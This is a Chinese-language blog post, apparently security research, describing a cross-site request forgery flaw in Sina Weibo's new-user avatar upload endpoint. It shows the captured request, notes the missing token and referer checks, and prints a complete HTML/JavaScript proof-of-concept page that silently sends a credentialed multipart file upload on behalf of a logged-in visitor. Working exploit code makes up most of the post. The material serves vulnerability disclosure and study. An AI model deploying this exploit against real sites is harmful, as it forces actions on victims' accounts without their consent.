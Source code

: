```yaml
---
layout: post
title: "利用csrf上传文件"
description: ""
category: 技术研究
tags: [csrf]
---
```

{% include JB/setup %}

## 参考资料 

http://blog.kotowicz.net/2011/05/invisible-arbitrary-csrf-file-upload-in.html

http://gerionsecurity.com/2013/04/here-it-is-the-file-upload-csrf/

新浪微博新注册用户的引导上传用户头像的接口没有防御csrf,通常的用户上传文件是需要交互,利用难度较大.不过html5有一个新特性[CORS](http://www.w3.org/TR/cors),可以实现无交互的上传文件.


存在csrf的地方:

	POST /nguide/aj/Upload HTTP/1.1
	Host: weibo.com
	User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:24.0) Gecko/20100101 Firefox/24.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: en-gb,en;q=0.5
	Accept-Encoding: gzip, deflate
	Cookie: lang=zh-cn; UOR=www.wooyun.org
	Connection: keep-alive
	Content-Type: multipart/form-data; boundary=---------------------------246862377417659
	Content-Length: 71483

	-----------------------------246862377417659
	Content-Disposition: form-data; name="filedata"; filename="Sunset.jpg"
	Content-Type: image/jpeg

话说有个疑问,为什么我的cookie里会有www.wooyun.org这个字段?????

这个地方的post请求既没有token,也没对refer进行验证.

所以构造如下poc

	<!DOCTYPE html> 
	<html> 
	<head>
	<meta charset=utf-8 />
	<link href='http://fonts.googleapis.com/css?family=Inconsolata' rel='stylesheet' type='text/css'> 
	<script src="http://ajax.googleapis.com/ajax/libs/jquery/1.5.2/jquery.min.js" type="text/javascript"></script>
	<style>
	body {background: #333; color: #eee; font-family: 'Inconsolata', Verdana, sans-serif;}
	a:link {color: green; }
	a:visited {color: darkgreen;}
	</style>
	</head>
	<body>
	<h1>sina weibo CSRF arbitrary file upload</h1>

	<h2>Step 1</h2>
	Log in into <a href="http://weibo.com">weibo.com</a> (skip this if you use 'remember me' feature)
	<h2>Step 2</h2>
	<button type="button" id="upload" onclick="start()"><font size="+2">Let's have some fun!</font></button>
	<script>
	var logUrl = 'http://weibo.com/nguide/aj/Upload/';

	function byteValue(x) {
    return x.charCodeAt(0) & 0xff;
	}

	function toBytes(datastr) {
    var ords = Array.prototype.map.call(datastr, byteValue);
    var ui8a = new Uint8Array(ords);
    return ui8a.buffer;
	}

	if (typeof XMLHttpRequest.prototype.sendAsBinary == 'undefined' && Uint8Array) {
	XMLHttpRequest.prototype.sendAsBinary = function(datastr) {
	this.send(toBytes(datastr));
	}
	}

	function fileUpload(fileData, fileName) {
	var fileSize = fileData.length,
	boundary = "9849436581144108930470211272",
	uri = logUrl,
	xhr = new XMLHttpRequest();

	var additionalFields = {
	rawpic: 1
	}

	var fileFieldName = "filedata";
	
	xhr.open("POST", uri, true);
	xhr.setRequestHeader("Content-Type", "multipart/form-data, boundary="+boundary); // simulate a file MIME POST request.
	xhr.setRequestHeader("Content-Length", fileSize);
	xhr.withCredentials = "true";
	
	xhr.onreadystatechange = function() {
	if (xhr.readyState == 4) {
	if ((xhr.status >= 200 && xhr.status <= 200) || xhr.status == 304) {
	
	if (xhr.responseText != "") {
	alert(JSON.parse(xhr.responseText).msg); // display response.
	}
	} else if (xhr.status == 0) {
	$("#goto").show();
	}
	}
	}
	
	var body = "";
	
	for (var i in additionalFields) {
	if (additionalFields.hasOwnProperty(i)) {
	body += addField(i, additionalFields[i], boundary);
	}
	}

	body += addFileField(fileFieldName, fileData, fileName, boundary);
	body += "--" + boundary + "--";
	xhr.sendAsBinary(body);
	return true;
	}

	function addField(name, value, boundary) {
	var c = "--" + boundary + "\r\n"
	c += "Content-Disposition: form-data; name='" + name + "'\r\n\r\n";
	c += value + "\r\n";
	return c;
	}

	function addFileField(name, value, filename, boundary) {
    var c = "--" + boundary + "\r\n"
    c += "Content-Disposition: form-data; name='" + name + "'; filename='" + filename + "'\r\n";
    c += "Content-Type: image/jpeg\r\n\r\n";
    c += value + "\r\n";
    return c;	
	}

	function load_binary_resource(url) {
	var req = new XMLHttpRequest();
	req.open('GET', url, false);
	//XHR binary charset opt by Marcus Granado 2006 [http://mgran.blogspot.com]
	req.overrideMimeType('text/plain; charset=x-user-defined');
	req.send(null);
	if (req.status != 200) return '';
	var bytes = Array.prototype.map.call(req.responseText, byteValue);
	return String.fromCharCode.apply(this, bytes);
	return req.responseText;
	}

	var start = function() {
	var c = load_binary_resource('html5.jpg');
	fileUpload(c, 'html5.jpg');
	};
	//start();

	</script>
	</div>
	<div id="goto" style="display:none">
	<h2>Step 3</h2>
	Done! <a href="http://weibo.com">see for yourself!</a>
	</div>
	</body>
	</html>


测试浏览器:firefox24.0

